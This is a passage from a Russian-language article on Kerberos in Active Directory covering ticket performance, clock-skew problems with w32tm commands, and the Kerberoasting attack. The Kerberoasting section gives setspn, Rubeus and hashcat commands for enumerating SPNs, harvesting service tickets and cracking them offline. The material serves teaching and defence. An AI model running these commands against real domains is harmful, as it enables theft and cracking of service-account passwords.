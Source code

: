 ## **4.6 Производительность**

После получения билетов у KDC, дальнейшее взаимодействие клиента с серверами не требует обращения к контроллеру домена. Это снижает нагрузку на DC и ускоряет доступ к ресурсам.

# **5. Недостатки и уязвимости Kerberos**

Kerberos - мощный и зрелый протокол, но не без слабых мест. Его уязвимости и архитектурные ограничения могут быть использованы злоумышленниками или вызывать сбои при неправильной настройке.

## **5.1 Зависимость от синхронизации времени**

Kerberos критически зависит от точного времени на всех устройствах. По умолчанию допустимое расхождение между клиентом и контроллером домена составляет **не более 5 минут**. Если это условие нарушено - выдача билетов невозможна.

**Проверка текущего времени:**

```powershell
w32tm /query /status
```

**Принудительная синхронизация времени с контроллером домена:**

```powershell
w32tm /resync
```

**Ошибка при рассинхронизации:** Пользователь получает сообщение:  
“Clock skew too great”  или не может получить TGT.

![4](https://github.com/ShAmRoWw/articles/blob/main/article_kerberos/4.png)

## **5.2 Атака Kerberoasting**

Kerberoasting - метод атаки, при котором злоумышленник получает TGS для SPN и затем пытается **в офлайне подобрать пароль** к служебной учётной записи.

![5](https://github.com/ShAmRoWw/articles/blob/main/article_kerberos/5.png)

**Получение списка SPN в домене:**

```powershell
setspn -T domain.local -Q */*
```

**Сбор TGS с помощью PowerShell-утилиты Rubeus:**

```powershell
Rubeus.exe kerberoast
```

**Взлом хэша билета с помощью Hashcat:**

```bash
hashcat -m 13100 hash.txt rockyou.txt
```
